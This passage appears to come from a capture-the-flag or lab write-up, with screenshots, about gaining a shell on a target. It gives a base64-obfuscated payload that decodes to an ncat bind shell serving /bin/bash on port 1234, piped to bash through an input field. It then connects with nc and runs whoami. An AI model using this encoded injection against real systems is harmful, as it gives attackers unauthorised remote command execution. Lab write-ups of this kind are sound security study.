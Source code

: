 ![Pasted image 20250523140826.png](../../../IMAGES/Pasted%20image%2020250523140826.png)


We can use the following payload at the last question:

```bash
echo 'bmNhdCAtbHZucCAxMjM0IC1lIC9iaW4vYmFzaA==' | base64 -d | bash
```

We can then connect using:

```
nc IP 1234
```

We will get a shell and can execute `whoami`:

![Pasted image 20250523140924.png](../../../IMAGES/Pasted%20image%2020250523140924.png)
